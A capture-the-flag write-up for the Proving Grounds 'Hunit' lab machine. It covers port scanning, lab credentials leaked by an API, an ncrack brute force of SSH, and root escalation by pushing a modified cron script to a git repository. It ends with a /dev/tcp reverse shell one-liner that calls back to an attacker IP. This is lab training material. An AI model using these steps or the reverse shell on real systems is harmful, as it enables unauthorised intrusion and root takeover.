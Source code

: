 ```yaml
---
title: "Proving grounds Practice: Hunit"
layout: post
categories: writeup
---
```


Proving grounds - Hunit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
8080/tcp  open  http-proxy
12445/tcp open  netbios-ssn Samba smbd 4.6.2
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)
```

## 8080/tcp  open  http-proxy

File Discovery
None

## Directory Discovery
- http://192.168.213.125:8080/api/
- http://192.168.213.125:8080/api/user/

**User directory discloses some credentials.**

```json
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
    "lastname": "Ademola",
    "description": "Admin",
    "id": 6
  },
  {
    "login": "jwinters",
    "password": "KTuGcSW6Zxwd0Q",
    "firstname": "Julie",
    "lastname": "Winters",
    "description": "Editor",
    "id": 7
  },
  {
    "login": "jvargas",
    "password": "OuQ96hcgiM5o9w",
    "firstname": "James",
    "lastname": "Vargas",
    "description": "Editor",
    "id": 10
  }
]
```

### Users
rjackson
jsanchez
dademola
jwinters
jvargas

### Passwords
yYJcgYqszv4aGQ
d52cQ1BzyNQycg
ExplainSlowQuest110
KTuGcSW6Zxwd0Q
OuQ96hcgiM5o9w

## Brute force credentials for SSH

```sh
naveenj@hackerspace:|22:22|~/proving_grounds/Hunit/files$ ncrack -vvv ssh://192.168.213.125:43022 -U users -P passwords 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2023-10-23 22:22 EDT

Discovered credentials on ssh://192.168.213.125:43022 'dademola' 'ExplainSlowQuest110'
ssh://192.168.213.125:43022 finished.

Discovered credentials for ssh on 192.168.213.125 43022/tcp:
192.168.213.125 43022/tcp ssh: 'dademola' 'ExplainSlowQuest110'
```

## 12445/tcp open  netbios-ssn Samba smbd 4.6.2

```sh
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	Commander       Disk      Dademola Files
	IPC$            IPC       IPC Service (Samba 4.13.2)
Reconnecting with SMB1 for workgroup listing.
```

## 43022/tcp open  ssh   OpenSSH 8.4 (protocol 2.0)

SSH to user using dademola:ExplainSlowQuest110

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Hunit$ ssh -p 43022 dademola@192.168.213.125
dademola@192.168.213.125's password:ExplainSlowQuest110
Last login: Tue Oct 24 02:22:47 2023 from 192.168.45.196
[dademola@hunit ~]$ 
```

## Privilege Escalation

Download linpeas using port 8080 and note that a cron job is running.

`root         300  0.0  0.0   3644  2220 ?        Ss   02:19   0:00 /usr/bin/crond -n`

```sh
/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Nov  6  2020 .
drwxr-xr-x 6 root root 4096 Nov  6  2020 ..
-rw------- 1 root root    9 Feb 16  2023 cron.daily
-rw------- 1 root root    9 Feb 16  2023 cron.monthly
-rw------- 1 root root    9 Feb 16  2023 cron.weekly
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

## Cron job

- Found id_rsa and id_rsa.pub keys for root.

## Extended capabilities

```sh
[dademola@hunit ~]$ getcap -r / 2> /dev/null
/usr/bin/newgidmap cap_setgid=ep
/usr/bin/newuidmap cap_setuid=ep
```

## Exploring cron

```sh
[dademola@hunit etc]$ cat crontab.bak 
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

- Cron running these 2 scripts every 3 and 2 minutes.
- Clone the /git-server folder to the /tmp folder for inspection
- git clone file:///git-server

```sh
[dademola@hunit git-server]$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
[dademola@hunit git-server]$ ls -al
total 8
drwxr-xr-x 3 dademola dademola 120 Oct 24 03:04 .
drwxrwxrwt 5 root     root     120 Oct 24 03:04 ..
drwxr-xr-x 8 dademola dademola 260 Oct 24 03:04 .git
-rw-r--r-- 1 dademola dademola   0 Oct 24 03:04 NEW_CHANGE
-rw-r--r-- 1 dademola dademola  63 Oct 24 03:04 README
-rw-r--r-- 1 dademola dademola  34 Oct 24 03:04 backups.sh
```

The backups.sh file is a placeholder file.

To gain control over the script, we need to set up our git identity by configuring the user.name and user.email using the commands git config — global user.name “dademola” and git config — global user.email “dademola@hunit.(none)”, respectively.

```sh
[dademola@hunit git-server]$ git config --global user.name "dademola"
[dademola@hunit git-server]$ git config --global user.email "dademola@hunit.(none)"
```

Clone remote git server using git SSH key

```sh
naveenj@hackerspace:|23:18|~/proving_grounds/Hunit$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.213.125:/git-server
```

Add reverse shell connection code to the backups.sh file. Configure git in local machine to push the updated code.

```sh
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.name "naveenj"
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.email "naveenj@kali.(none)"
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git add -A
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git commit -m "exp"
#git push
naveenj@hackerspace:|23:25|~/proving_grounds/Hunit/git-server$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 326 bytes | 326.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
To 192.168.213.125:/git-server
   b50f4e5..eee611b  master -> master
```

Ensure the shell is in the /git-server folder.

Reverse shell
```sh
sh -i >& /dev/tcp/192.168.45.196/8080 0>&1
```

Once the cron job running the reverse shell with root privilege will be obtained.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).